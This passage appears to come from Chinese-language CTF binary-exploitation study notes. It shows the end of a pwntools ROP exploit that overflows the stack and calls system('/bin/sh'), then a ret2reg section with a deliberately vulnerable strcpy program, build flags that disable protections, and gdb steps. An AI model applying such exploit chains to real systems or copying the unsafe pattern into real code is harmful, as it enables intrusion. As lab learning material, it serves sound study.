```
p.recvuntil(b'bye~\n')
p.send(b'/bin/sh\x00')
#调用system函数
payload = b'a' * offset#栈溢出
payload += p64(poprdi_addr)#retn指向rdi
payload += p64(bin_sh_addr)#rdi所需参数
payload += p64(0x4004e1)#此处调用的是got，因此需要添加一个返回值，以应付got的push
payload += p64(system_addr)#将上面的参数作为system函数的参数
payload = payload.ljust(200, b"B")#填充多余数据

p.send(payload)
p.interactive()
```



### 1、（6）ret2reg

[【pwn基础】— ret2reg - 知乎 (zhihu.com)](https://zhuanlan.zhihu.com/p/615001792)

```c
#include <stdio.h>
#include <string.h>

void vuln(char *input) {
        char buffer[512];
        strcpy(buffer, input);
}


int main(int argc, char **argv) {
        vuln(argv[1]);
        return 0;
}
```

```
gcc -z execstack -no-pie -z norelro  -fno-stack-protector -m32 ret2reg.c -g -Wall -o ret2reg
```

使用pwngdb设置断点在leave处

![image-20240406171001100](${images}/image-20240406171001100.png)



设置一个参数并运行，观察返回时的EAX、ECX、EDX

```
set args 123456
```

![image-20240406171123889](${images}/image-20240406171123889.png)

可以看到是指向缓冲区的



[CTF-wiki]: https://ctf-wiki.org/pwn/linux/user-mode/environment/	"ctf-wiki知识库"
[CTFHub]: https://www.ctfhub.com/#/skilltree	"ctfhub技能树"
[攻防世界]: https://adworld.xctf.org.cn/challenges/list	"题库"